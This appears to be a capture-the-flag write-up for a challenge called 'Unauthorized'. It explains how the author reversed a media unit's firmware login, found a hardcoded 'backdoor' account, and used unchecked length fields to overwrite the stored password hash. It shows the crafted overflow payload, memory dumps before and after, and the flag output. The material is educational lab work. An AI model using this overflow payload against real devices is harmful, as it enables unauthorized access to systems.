 # Unauthorized
Let's do something simple. This media unit has a Wifi access point and looks like remote access is possible. But only if you know the right password.

## Write-up
We have to login to get the flag, but we don't know the password to access...

1. We start to reverse and we determine the format of the data to send. It is LU:LP:UUUUUPPPPP
```
LU=Length of user
LP=Length of password
UUUUU=User
PPPPP=Password

Example
7:11:theuserthepassword
```

2. We find in the code a created user. The username is "backdoor" but the password is unknown. It is stored as SHA256 hash with this value 55030C349FC95E1385935EA23366B5A99945D8BF35D372C3AA722BB97492CA26

3. While I continued reversing I launch a brute-force for this hash... The brute-force hadn't success

4. The firmware doesn't check the length of the inputs and it reserves space according to the length parameters received. Modifying the length parameters we can select where username and password will be stored -> We can overwrite the stored password hash!!

5. We generate a sha256 hash of a known string. For example "1111" -> 0F FE 1A BD 1A 08 21 53 53 C2 33 D6 E0 09 61 3E 95 EE C4 25 38 32 A7 61 AF 28 FF 37 AC 5A 15 0C

6. We send a login with a calculated password length to overwrite the stored password hash with our custom value 
```
BEFORE:
003000 | 00 55 03 0C 34 9F C9 5E 13 85 93 5E A2 33 66 B5 
003010 | A9 99 45 D8 BF 35 D3 72 C3 AA 72 2B B9 74 92 CA 
003020 | 26 25 30 09 00 62 61 63 6B 64 6F 6F 72 00 00 00 

SEND:
8:3768:backdoor#00#0F#FE#1A#BD#1A#08#21#53#53#C2#33#D6#E0#09#61#3E#95#EE#C4#25#38#32#A7#61#AF#28#FF#37#AC#5A#15#0C#25#30#09#00#62#61#63#6B#64#6F#6F#72#00

AFTER
003000 | 00 0F FE 1A BD 1A 08 21 53 53 C2 33 D6 E0 09 61 
003010 | 3E 95 EE C4 25 38 32 A7 61 AF 28 FF 37 AC 5A 15 
003020 | 0C 25 30 09 00 62 61 63 6B 64 6F 6F 72 00 00 00 
```

7. We login now with our known password (8:4:backdoor1111) and we get the flag
	
```
Initializing...
Initialized      

8:3768:backdoorþ½!SSÂ3Öàa>•îÄ%82§a¯(ÿ7¬Z%0backdoor
Wrong password!

8:4:backdoor1111
Your flag is:
dd6d3e45e699c2bddd96413f32144fa4
```